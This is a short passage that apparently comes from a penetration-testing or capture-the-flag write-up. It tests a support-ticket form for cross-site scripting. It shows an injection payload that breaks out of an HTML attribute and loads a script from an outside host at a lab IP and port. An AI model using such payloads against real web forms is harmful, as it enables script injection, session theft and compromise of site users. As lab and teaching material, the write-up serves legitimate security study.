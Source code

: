 <figure><img src="../../../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

